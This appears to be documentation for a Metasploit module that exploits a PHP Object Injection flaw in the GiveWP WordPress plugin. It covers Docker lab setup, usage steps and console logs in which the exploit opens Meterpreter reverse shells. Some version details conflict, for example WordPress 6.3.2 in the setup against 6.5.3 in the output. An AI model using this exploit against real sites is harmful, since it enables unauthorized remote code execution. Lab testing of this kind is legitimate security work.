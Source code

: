 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object leading to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Create the following `docker-compose.yml` file to set up a vulnerable WordPress environment:

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```
1. Run Docker: `docker compose up`
2. Access the WordPress instance at `http://127.0.0.1` and complete the installation process.
3. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.16.1](https://downloads.wordpress.org/plugin/give.3.16.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker compose cp give wordpress:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

4. **Create a Donation Form**:
- Navigate to the "Forms" section within the GiveWP plugin and click on "Add Form."
- Select any form.
- Configure the form as needed, then publish it.

*Note: Depending on the vulnerability you want to test, using an older version like 3.14.1 may also be applicable.*



## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.3.2)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected GiveWP Plugin version: 3.14.1
[+] Vulnerable to both CVE-2024-5932 and CVE-2024-8353 (bypass).
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 45
[*] Using Form ID: 45 for exploitation.
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 5 opened (192.168.1.36:1337 -> 172.18.0.3:45656) at 2024-10-02 19:51:31 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### GiveWP Plugin version: 3.16.1 (Dockerized WordPress Version 6.3.2)

```bash
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected GiveWP Plugin version: 3.16.1
[+] Vulnerable to CVE-2024-8353 (bypass).
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 38
[*] Using Form ID: 38 for exploitation.
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 4 opened (192.168.1.36:1337 -> 172.18.0.3:49380) at 2024-10-02 19:49:39 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
